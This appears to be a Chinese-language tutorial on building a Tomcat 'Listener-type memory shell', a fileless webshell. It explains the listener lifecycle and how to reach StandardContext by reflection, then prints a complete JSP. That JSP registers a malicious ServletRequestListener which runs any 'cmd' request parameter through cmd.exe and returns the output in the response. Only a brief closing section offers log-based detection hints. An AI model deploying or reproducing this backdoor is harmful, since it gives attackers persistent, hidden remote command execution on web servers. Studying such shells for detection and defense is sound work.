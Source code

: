 # Tomcat-Listener型内存马

## 流程分析

我们知道监听器的过程：Listener -> Filter -> Servlet

Listener是最先被加载的, 所以可以利用动态注册恶意的Listener内存马。而Listener分为以下几种：

- ServletContext，服务器启动和终止时触发
- Session，有关Session操作时触发
- Request，访问服务时触发

不难想到，其中关于监听Request对象的监听器是最适合做内存马的，只要我们访问服务就能触发相应操作

如果在Tomcat要引入listener，需要实现两种接口，分别是`LifecycleListener`和原生`EvenListener`。

实现了`LifecycleListener`接口的监听器一般作用于tomcat初始化启动阶段，此时客户端的请求还没进入解析阶段，不适合用于内存马。

另一个`EventListener`接口，在Tomcat中，自定义了很多继承于`EventListener`的接口，应用于各个对象的监听，idea下用快捷键`Ctrl+H`查看所有实现接口的类

![](img/1.png)

重点来看`ServletRequestListener`接口，`ServletRequestListener`用于监听`ServletRequest`对象的创建和销毁，当我们访问任意资源，无论是servlet、jsp还是静态资源，都会触发`requestInitialized`方法

其中要实现两个方法：

**requestInitialized：**在request对象创建时触发

**requestDestroyed：**在request对象销毁时触发

简单实现一下Listener

```Java
public class TestListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("destroy TestListener");
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("initial TestListener");
    }
}
```

在`web.xml中

```xml
<listener>
    <listener-class>com.yyds.TestListener</listener-class>
</listener>
```

在`requestInitialized`处下断点，清楚看到调用链

![](img/2.png)

我们看到listener是在StandardContext#getApplicationEventListeners方法中获得![](img/3.png)![](img/4.png)

那如何添加listener呢，可以看到在StandardContext#addApplicationEventListener添加了listener![](img/5.png)

因此我们不难想到通过反射调用StandardContext#addApplicationEventListener方法，add我们自己写的恶意listener

方式一：

```jsp
<% Field reqF = request.getClass().getDeclaredField("request"); reqF.setAccessible(true); Request req = (Request) reqF.get(request); StandardContext context = (StandardContext) req.getContext(); %>
```

方式二：

```jsp
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

因此看看这个内存马就不难理解了

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>

<%!
    public class MyListener implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null){
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String out = s.hasNext()?s.next():"";
                    Field requestF = req.getClass().getDeclaredField("request");
                    requestF.setAccessible(true);
                    Request request = (Request)requestF.get(req);
                    request.getResponse().getWriter().write(out);
                }
                catch (IOException e) {}
                catch (NoSuchFieldException e) {}
                catch (IllegalAccessException e) {}
            }
        }

        public void requestInitialized(ServletRequestEvent sre) {}
    }
%>

<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
    MyListener listenerDemo = new MyListener();
    context.addApplicationEventListener(listenerDemo);
%>
```

![](img/6.png)

删除后随便来一个

![](img/7.png)

## 如何防御

如果是通过命令执行漏洞，那么看看日志的请求应该能排查

可能会有较多的404但是带有参数的请求，或者大量请求不同url但带有相同的参数，或者页面并不存在但返回200